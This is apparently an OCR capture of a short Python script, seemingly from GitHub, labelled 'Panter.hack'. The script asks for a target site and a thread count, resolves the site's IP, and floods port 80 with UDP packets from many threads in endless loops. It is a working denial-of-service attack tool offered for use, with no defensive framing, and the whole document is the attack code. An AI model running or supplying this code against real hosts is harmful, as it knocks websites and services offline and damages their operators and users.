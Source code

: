 mport time
import socket
import sys
import _thread
site = input("Enter your( Panter.hack )site url => ")
thread_count = input("Enter your(Panter.hack)thread => ")
ip = socket.gethostbyname(site)
UDP_PORT = 80
MESSAGE = 'Black Security'
print("UDP target IP:", ip)
print("UDP target port:", UDP_PORT)
time.sleep(3)
def ddos(i):
    while 1:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        sock.sendto(bytes(MESSAGE,"UTF-8"), (ip, UDP_PORT))
        print("Packet Sent")
for i in range(int(thread_count)):
    try:
        _thread.start_new_thread(ddos, ("Thread-" + str(i),))
    except KeyboardInterrupt:
        sys.exit(0)
while 1:
    pass
